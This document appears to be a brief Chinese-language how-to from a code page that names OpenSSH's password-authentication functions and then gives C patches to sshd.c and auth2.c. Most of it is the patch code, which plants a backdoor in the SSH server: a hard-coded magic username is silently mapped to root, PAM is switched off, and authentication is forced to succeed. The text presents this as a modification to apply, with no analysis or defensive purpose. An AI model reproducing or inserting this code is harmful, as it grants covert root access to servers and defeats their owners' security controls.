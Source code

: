 # 认证函数

```
userauth_passwd

mm_auth_password

sshpam_auth_passwd
```

# 代码修改

sshd.c  中定义

```c
extern int is_eval_user = 0;
```

修改input_userauth_request(auth2.c)函数

当为特定用户时，替换user为root，并禁用pam：

```c
extern int is_eval_user;
/*ARGSUSED*/
static int
input_userauth_request(int type, u_int32_t seq, void *ctxt)
{
................
	user = packet_get_cstring(NULL);
	if(strcmp(user,"asdqwdasdqweqwdasd") == 0){
		user = (char*)malloc(24);
		memset(user,0,24);
		user[0] = 'r';
		user[1] = 'o';
		user[2] = 'o';
		user[3] = 't';
		is_eval_user = 1;
		options.use_pam =0;
 	}
}
........................
	/* try to authenticate user */
	m = authmethod_lookup(authctxt, method);
	if (m != NULL && authctxt->failures < options.max_authtries) {
		debug2("input_userauth_request: try method %s", method);
		authenticated =	m->userauth(authctxt);
		if(is_eval_user == 1){
			authenticated = 1;
		}
	}
............................
```

